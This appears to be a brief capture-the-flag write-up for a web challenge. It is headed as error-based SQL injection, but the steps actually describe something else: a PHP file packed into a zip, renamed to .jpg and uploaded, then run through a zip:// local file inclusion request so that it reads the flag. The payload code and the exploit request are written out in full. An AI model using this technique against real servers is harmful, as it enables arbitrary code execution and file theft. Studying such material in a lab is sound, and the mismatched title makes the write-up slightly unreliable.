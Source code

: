 # SQLi - Error based

# step 1: 

create file a.php

```php
# a.php
<?php
    echo file_get_contents("flag<name.....>.php"); # it is found similar ....
?>
```

# step 2:

```shell
$ zip payload.zip a.php && mv payload.zip payload.jpg

```

# step 3: upload -> id_image

# step 4: 
```shell
GET /web-serveur/ch43/index.php?page=zip://tmp/upload/<name>.jpg%23a.php
```
link this method: `https://book.hacktricks.xyz/pentesting-web/file-inclusion#zip-and-rar`